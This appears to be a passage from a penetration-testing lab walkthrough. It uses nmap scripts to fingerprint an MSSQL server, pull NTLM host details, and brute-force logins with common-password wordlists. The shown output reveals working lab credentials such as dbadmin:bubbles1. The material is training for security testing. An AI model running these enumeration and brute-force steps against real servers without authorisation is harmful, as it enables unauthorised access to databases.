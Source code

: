 ```
root@attackdefense:~# nmap -p 1433 --script ms-sql-info --script-args mssql.instance-port=1433 10.0.27.132
Starting Nmap 7.91 ( https://nmap.org ) at 2022-08-27 09:15 IST
Nmap scan report for 10.0.27.132
Host is up (0.0033s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s

Host script results:
| ms-sql-info: 
|   10.0.27.132:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
```

Find information from the MSSQL server with NTLM.

```
root@attackdefense:~# nmap -p 1433 --script ms-sql-ntlm-info 10.0.27.132
Starting Nmap 7.91 ( https://nmap.org ) at 2022-08-27 09:19 IST
Nmap scan report for 10.0.27.132
Host is up (0.0033s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-ntlm-info: 
|   Target_Name: MSSQL-SERVER
|   NetBIOS_Domain_Name: MSSQL-SERVER
|   NetBIOS_Computer_Name: MSSQL-SERVER
|   DNS_Domain_Name: MSSQL-Server
|   DNS_Computer_Name: MSSQL-Server
|_  Product_Version: 10.0.14393

Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds

```

Enumerate all valid MSSQL users and passwords

```
dbadmin:bubbles1
auditor:jasmine1
admin:anamaria
```

```
root@attackdefense:~# nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt 10.0.27.132
Starting Nmap 7.91 ( https://nmap.org ) at 2022-08-27 09:26 IST
Nmap scan report for 10.0.27.132
Host is up (0.0031s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-brute: 
|   [10.0.27.132:1433]
|     Credentials found:
|       dbadmin:bubbles1 => Login Success
```